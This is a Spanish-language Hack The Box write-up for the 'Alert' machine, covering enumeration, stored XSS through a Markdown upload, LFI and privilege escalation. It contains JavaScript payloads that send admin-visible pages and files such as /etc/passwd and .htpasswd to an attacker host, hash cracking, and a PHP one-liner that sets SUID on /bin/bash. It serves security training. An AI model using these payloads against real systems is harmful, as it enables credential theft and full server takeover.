




# Guía de explotación paso a paso 'Alert'

**Máquina:** Alert

**Plataforma:** Hack The Box

**Laboratorio:** [Alert machine](https://app.hackthebox.com/machines/Alert)

**Target:** 10.10.11.44

**Explotación**: [XSS](../../../../OWASP%20TOP%2010/XSS) y [LFI](../../../../OWASP%20TOP%2010/LFI)

---

## Resumen

>Primero, encontramos un uploader de archivos Markdown vulnerable a XSS; después, conseguimos que un administrador abra el archivo Markdown y ejecute un script que consulta una ruta interna (descubrimiento LFI). A continuación, exfiltramos el contenido y obtenemos credenciales, usamos SSH para el acceso inicial, descubrimos un servicio local con ficheros editables y aprovechamos nuestra capacidad de escritura para establecer el bit SUID en `/bin/bash`, elevando así nuestros privilegios a root.  


---

## Reconocimiento

**Acción:** escaneo inicial con nmap

```shell
nmap -p- --open -sS -n -Pn --min-rate 5000 -vvv 10.10.11.44 -oG allPorts
nmap -p22,80 -sCV -Pn -v 10.10.11.44 -oN targeted 
```

**Resultado:**

```shell
[*] IP Address: 10.10.11.44
[*] Open ports: 22,80
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Explicación:** solo encontramos dos puertos abiertos. Como hay un servicio web, podemos examinar tecnologías con `whatweb <url_objetivo>` y visitar la dirección web para ver a qué nos enfrentamos.

### Enumeración

Usamos gobuster para enumerar rutas ocultas:

```bash
gobuster dir -u http://alert.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

**Resultado:**

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
```

Analizamos el código fuente de la página principal:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
    </nav>
    <div class="container">
        <h1>Markdown Viewer</h1>
        <div class="form-container">
            <form action="visualizer.php" method="post" enctype="multipart/form-data">
                <input type="file" name="file" accept=".md" required>
                <input type="submit" value="View Markdown">
            </form>
        </div>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

Observamos que hay etiquetas `href` que redireccionan a rutas que siguen la estructura `index.php?page=`. Como en gobuster encontramos el endpoint `messages`, probamos a acceder con este formato: `index.php?page=messages`. Vemos que la página es accesible, solo que no visualizamos nada. Podemos suponer que es una pestaña oculta para usuarios sin privilegios, pero accesible para un administrador. Siendo una etiqueta 'messages' y habiendo una pestaña de `Contact Us`, podemos pensar que hay alguna forma de enviar mensajes que un administrador reciba en este apartado que nosotros ahora no podemos visualizar.



En la página web principal, vemos que tenemos pocas acciones a ejecutar, pero dos son interesantes: una que permite subir un archivo Markdown, el cual comprobamos que está mal sanitizado y permite inyecciones XSS (tan solo hay que evadir el control de subida de archivos subiendo un archivo `.md` cuyo contenido sea JavaScript); y la otra acción es un panel de contacto, donde, al ver que se ejecuta código JavaScript, pensamos en capturar información privilegiada de un posible administrador que reciba nuestro mensaje. Por lo tanto, hacemos una traza para comprobar que hay alguien recibiendo nuestro mensaje de contacto malicioso.



Podemos confirmar que algún usuario recibió nuestro mensaje y pinchó en el enlace. Ahora podemos tratar de exfiltrar información de este usuario privilegiado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [27/Oct/2025 12:01:45] code 404, message File not found
10.10.11.44 - - [27/Oct/2025 12:01:45] "GET /test HTTP/1.1" 404 -
```

---

## Explotación

Por un lado, vamos a subir un archivo `.md` que envíe una solicitud a nuestro servidor y que de él trate de acceder a un recurso `.js` malicioso.

```html
<script src="http://10.10.16.12/pwned.js"></script>
```

Hacemos otra traza. Subimos el archivo, nos dice si queremos obtener el link (abajo a la derecha), pinchamos y nos redirecciona a una URL donde está almacenado nuestro archivo. Si tenemos abierto nuestro servidor, veremos que efectivamente un usuario recibe el mensaje y trata de acceder al recurso solicitado.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.12 - - [27/Oct/2025 12:14:42] code 404, message File not found
10.10.16.12 - - [27/Oct/2025 12:14:42] "GET /pwned.js HTTP/1.1" 404 -
```

Lo que haremos es crear en nuestra máquina atacante un archivo `pwned.js` que contenga el siguiente código (lo explicamos a continuación):

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?page=messages', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

**Qué hace el fragmento de JavaScript:** se obtiene el HTML de `http://alert.htb/index.php?page=messages` y se envía (codificado en base64) a un servidor externo (`10.10.16.12`). Es un patrón típico de _exfiltración de información_ aprovechando peticiones desde el navegador.

- `var req = new XMLHttpRequest();`  
    Creamos un objeto XHR para hacer una petición HTTP sin interfaz gráfica.
    
- `req.open('GET', 'http://alert.htb/index.php?page=messages', false);`  
    Abrimos una petición síncrona `GET` hacia la URL interna que contiene los mensajes (nota: las peticiones síncronas bloquean el hilo de la UI).
    
- `req.send();`  
    Enviamos la petición y, al ser síncrona, `req.responseText` contendrá la respuesta (el HTML/texto de la página).
    
- `var exfil = new XMLHttpRequest();`  
    Creamos otro objeto XHR para la exfiltración.
    
- `exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);`  
    Abrimos una petición `GET` (síncrona) hacia un servidor controlado por el atacante, adjuntando en la query el contenido obtenido, codificado en Base64 con `btoa()`.
    
- `exfil.send();`  
    Enviamos la petición que transmite los datos al servidor remoto.
    

Si recargamos el endpoint donde se almacenaba nuestro archivo `.md` (la URL que se proporciona al subir un archivo), vemos que en nuestro servidor obtenemos la respuesta en base64 tal y como pedimos. Aquí tan solo obtenemos, a modo de traza, el código fuente en HTML que desde nuestra sesión sin privilegios ya vemos con `Ctrl+U`. Pero confirmando que esto funciona, ahora podemos enviarle por la pestaña `Contact Us` al administrador el enlace donde se almacena el archivo `.md` que apunta a nuestro servidor con el recurso `.js` malicioso.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.16.12 - - [27/Oct/2025 12:38:14] "GET /pwned.js HTTP/1.1" 200 -
10.10.16.12 - - [27/Oct/2025 12:38:14] "GET /pwned.js HTTP/1.1" 200 -
10.10.16.12 - - [27/Oct/2025 12:38:14] "GET /?bs64=PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGV<...>1sPgoK HTTP/1.1" 200 -
```

**Respuesta del administrador:**

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [27/Oct/2025 12:43:31] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.44 - - [27/Oct/2025 12:43:32] "GET /?bs64=PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGV<...>4KCg== HTTP/1.1" 200 -
```

**Decodificamos:**

```bash
echo -n "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICA8bWV0YSBuYW1lPSJ2aWV3cG9ydCIgY29udGVudD0<...>D4KCg==" | base64 -d; echo
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="css/style.css">
    <title>Alert - Markdown Viewer</title>
</head>
<body>
    <nav>
        <a href="index.php?page=alert">Markdown Viewer</a>
        <a href="index.php?page=contact">Contact Us</a>
        <a href="index.php?page=about">About Us</a>
        <a href="index.php?page=donate">Donate</a>
        <a href="index.php?page=messages">Messages</a>
    </nav>
    <div class="container">
        <h1>Messages</h1>
        <ul>
            <li><a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a></li>
        </ul>
    </div>
    <footer>
        <p style="color: black;">© 2024 Alert. All rights reserved.</p>
    </footer>
</body>
</html>
```

Vemos el código fuente del lado del administrador y observamos la siguiente etiqueta: `href='messages.php?file=2024-03-10_15-48-34.txt'`. Debemos acceder a dicho endpoint para ver qué se encuentra.

Vamos a `http://alert.htb/messages.php?file=2024-03-10_15-48-34.txt` y no vemos nada, pero la página existe. Así que podemos repetir el truco y ver si el administrador nos devuelve el contenido de la página.

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/passwd', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

Modificamos el archivo `.js` para que desde el endpoint descubierto el administrador haga un [Local File Inclusion](../../../../OWASP%20TOP%2010/LFI) y veamos si accedemos al `/etc/passwd`. Volvemos a subir el archivo `.md` si hace falta para poder enviar la URL proporcionada al administrador desde el panel de `Contact Us`.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [27/Oct/2025 12:54:56] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.44 - - [27/Oct/2025 12:54:56] "GET /?bs64=PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW4<...>U+Cg== HTTP/1.1" 200 -
```

**Decodificamos** (añadimos una expresión regular para filtrar por las cadenas que contengan `sh` al final):

```bash
echo -n "PHByZT5yb290Ong6MDowOnJvb3Q6L3Jvb3Q6L2Jpbi9iYXNoCmRhZW1vbjp4OjE6MTpkYWVtb246L3Vzci9zYmluOi91c3Ivc2Jpbi9ub2xvZ2luCmJpbjp4OjI6MjpiaW46L2J<...>mU+Cg==" | base64 -d | grep "sh$"
```

```bash
root:x:0:0:root:/root:/bin/bash
albert:x:1000:1000:albert:/home/albert:/bin/bash
david:x:1001:1002:,,,:/home/david:/bin/bash
```

Vemos que hay dos usuarios: `albert` y `david`.

Al escanear los servicios con `-sCV` en nmap, vimos que el servidor usaba `Apache`. Sabiendo esto, podemos apuntar a un archivo de configuración por defecto de estos servicios y tratar de listar información confidencial.

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../etc/apache2/sites-available/000-default.conf', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

Repetimos el proceso, obtenemos la respuesta y decodificamos:

```html
<pre>
<VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>
```

Encontramos el siguiente subdominio: `statistics.alert.htb`. Este subdominio también lo podríamos haber encontrado fuzzeando con gobuster o wfuzz.

Registramos en nuestro archivo `/etc/hosts` la dirección encontrada junto a la IP del servidor y accedemos al endpoint. Vemos que requiere credenciales para poder acceder:



Para tratar de obtener credenciales, podemos apuntar justo al endpoint que nos indica la respuesta HTML obtenida: `/var/www/statistics.alert.htb/.htpasswd`.

Mismo proceso:

```javascript
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/messages.php?file=../../../../../var/www/statistics.alert.htb/.htpasswd', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.16.12/?bs64=' + btoa(req.responseText), false);
exfil.send();
```

**Decodificamos:**

```bash
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>
```

**Credenciales hasheadas:**

```bash
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

Con herramientas como _Hashcat_ podemos tratar de crackear esta contraseña. Primero guardamos las credenciales hasheadas en un archivo llamado, por ejemplo, `credential`:

```bash
hashcat credential /usr/share/wordlists/rockyou.txt --user
```

**Resultado:**

```bash
albert:manchesterunited
```

Con estas credenciales podemos tratar de loguearnos en el panel administrador de antes y también vía SSH.

```bash
ssh albert@10.10.11.44
```

Introducimos la contraseña `manchesterunited` y ganamos acceso a este usuario. Desde aquí podemos visualizar la primera flag del laboratorio.

---

## Escalada de privilegios

**Acción:** listamos grupos a los que pertenecemos y buscamos archivos pertenecientes a dicho grupo

```bash
id
find / -group management 2>/dev/null
```

**Resultado:**

```bash
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)

/opt/website-monitor/config
/opt/website-monitor/config/configuration.php
```

**Acción:** accedemos a la ruta encontrada y vemos qué permisos tiene

```bash
cd /opt/website-monitor/
ls -la
```

**Resultado:**

```bash
drwxrwxr-x 8 root root        4096 Oct 12  2024 .git
-rwxrwxr-x 1 root root        1068 Oct 12  2024 LICENSE
-rwxrwxr-x 1 root root       40849 Oct 12  2024 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12  2024 README.md
drwxrwxr-x 2 root management  4096 Oct 12  2024 config
drwxrwxr-x 2 root root        4096 Oct 12  2024 incidents
-rwxrwxr-x 1 root root        5323 Oct 12  2024 index.php
-rwxrwxr-x 1 root root        1452 Oct 12  2024 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12  2024 monitors
-rwxrwxr-x 1 root root         104 Oct 12  2024 monitors.json
-rwxrwxr-x 1 root root        1918 Oct 12  2024 style.css
drwxrwxr-x 2 root root        4096 Oct 12  2024 updates
```

**Acción:** listamos servicios en ejecución y vemos que internamente se ejecuta un servidor web por el puerto 8080 interno de la máquina

```bash
ss -nltp
```

**Resultado:**

```bash
State        Recv-Q        Send-Q               Local Address:Port               Peer Address:Port       Process       
LISTEN       0             4096                     127.0.0.1:8080                    0.0.0.0:*                        
LISTEN       0             4096                 127.0.0.53%lo:53                      0.0.0.0:*                        
LISTEN       0             128                        0.0.0.0:22                      0.0.0.0:*                        
LISTEN       0             511                              *:80                            *:*                        
LISTEN       0             128                           [::]:22                         [::]:* 
```

**Acción:** con port forwarding hacemos que nuestro puerto 8080 sea el puerto 8080 de la máquina para así poder visualizar desde nuestro PC atacante el servidor web

```bash
ssh albert@10.10.11.44 -L 8080:127.0.0.1:8080
```

Podemos ver la web en ejecución:



En las carpetas listadas tenemos una que se llama `monitors`, dentro contiene dos archivos que podemos editar que son como mensajes de alerta. Si vamos al endpoint que indica la ubicación de ficheros, vemos que efectivamente se ejecuta el mismo contenido que podemos ver desde el sistema pero en el navegador.

```
http://localhost:8080/monitors/alert.htb
```

Con esto, y viendo que el propietario de este servidor web es root pero nosotros tenemos capacidad de escritura, podemos tratar de modificar los permisos de la `/bin/bash` de root y así elevar nuestros privilegios.

**Acción:** creamos un archivo `.php` con el siguiente contenido. Vamos a la URL donde generamos el archivo que modifica los permisos a SUID de la `bash` de root. Nos lanzamos una bash privilegiada sin contraseña y, como se han modificado los permisos de la bash de root, logramos elevar privilegios. Ahora podemos visualizar la flag del laboratorio para finalizar el ejercicio.

```php
<?php system("chmod u+s /bin/bash"); ?>
```

```
http://localhost:8080/monitors/test.php
```

```bash
bash -p
```

---